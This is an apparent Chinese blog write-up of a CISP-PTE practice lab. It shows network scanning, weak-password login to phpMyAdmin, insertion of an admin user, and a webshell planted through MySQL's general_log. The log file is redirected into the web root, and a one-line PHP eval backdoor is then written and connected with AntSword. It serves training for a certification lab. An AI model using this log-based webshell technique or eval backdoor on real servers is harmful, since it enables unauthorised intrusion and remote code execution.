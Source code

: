 ```yaml
---
layout: post
title: CISP-PTE host综合
subtitle: CISP-PTE host综合
date: 2025-08-17 08:43
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
published: false
---
```

## 1. 靶场环境

![image.png](https://img.ghostliner.top/daeAAK.png)

## 2. 信息搜集

**网段扫描**

```shell
namp -sn 192.168.163.0/24
```

发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/ez0Fj4.png)

**端口扫描**

```shell
nmap -T5 -sS -p- 192.168.163.133
```

发现 80 端口

![image.png](https://img.ghostliner.top/2JBI0K.png)

### 2.1. 站点测试

**访问站点**

![image.png](https://img.ghostliner.top/C8byzv.png)

尝试弱密码登陆失败

**站点扫描**

![image.png](https://img.ghostliner.top/FyhiK5.png)

发现phpmyadmin 登录页面

![image.png](https://img.ghostliner.top/RztLkB.png)

尝试弱密码登录，使用 root:password 登录成功

**版本信息**：

![image.png](https://img.ghostliner.top/GGH4Js.png)

**数据库列表**：

![image.png](https://img.ghostliner.top/OIo6HY.png)

发现 `picture_store` 和 `picture_system` 两个数据库表相同，且都有admin 用户信息

![image.png](https://img.ghostliner.top/2hRoor.png)

admin 密码： `77ad15e68545d32e51bb61ec3325cfda`，尝试MD5 解码失败 hhxxttxs

**思路**：
1. 疑似为 MD5，可以两个数据库都创建新用户，密码使用 MD5 编码，尝试登录
2. 使用 phpMyadmin 先 getshell 后查看登录代码

![image.png](https://img.ghostliner.top/zks6ij.png)

创建用户名：hack，密码： `e10adc3949ba59abbe56e057f20f883e`

![image.png](https://img.ghostliner.top/bPJon9.png)

![image.png](https://img.ghostliner.top/d6ukWw.png)

登录成功，发现key1

![image.png](https://img.ghostliner.top/QZQJnI.png)

F12 查看key1

![image.png](https://img.ghostliner.top/xh4yZQ.png)
## 3. getshell

### 3.1. `INTO OUTFILE`  getshell

查看权限

```sql
show global variables like '%priv%';
show global variables like '%general_log%';
```

![image.png](https://img.ghostliner.top/mvrUvq.png)

`secure_file_priv` 显示NULL，说明无权限使用 `INTO OUTFILE`，会报错：

![image.png](https://img.ghostliner.top/Ykin4g.png)

### 3.2. 日志getshell

查看日志配置

```sql
show global variables like "general_log%";
```

![image.png](https://img.ghostliner.top/knKwFf.png)

更改日志配置

```sql
set global general_log="ON";
set global general_log_file="d:/phpstudy/www/hack.php";
show global variables like "general_log%";
```

修改成功：

![image.png](https://img.ghostliner.top/fO4O5c.png)

注入一句话木马

```sql
select '<?php echo 123;eval($_REQUEST[a]);?>';
```

![image.png](https://img.ghostliner.top/V3ANoJ.png)

访问 `/hack.php?a=PHP info();`，成功执行代码

![image.png](https://img.ghostliner.top/fqQ07n.png)

蚁剑连接

![image.png](https://img.ghostliner.top/PirWj9.png)

查看当前用户为 `system`

![image.png](https://img.ghostliner.top/Nyqsd6.png)

查看登录代码，确定是 MD5 编码

![image.png](https://img.ghostliner.top/Zc1h7Q.png)

查找key 文件

```batch
for /r "d:\" %i in (key*.*) do echo %i
```

发现 `d:\phpStudy\WWW\images\key2.txt`

![image.png](https://img.ghostliner.top/68xoWh.png)

查看文件内容，获取key2

![image.png](https://img.ghostliner.top/zRbram.png)

查看回收站，在C 盘回收站发现key3

![image.png](https://img.ghostliner.top/sPWhPa.png)

![image.png](https://img.ghostliner.top/CIHVug.png)
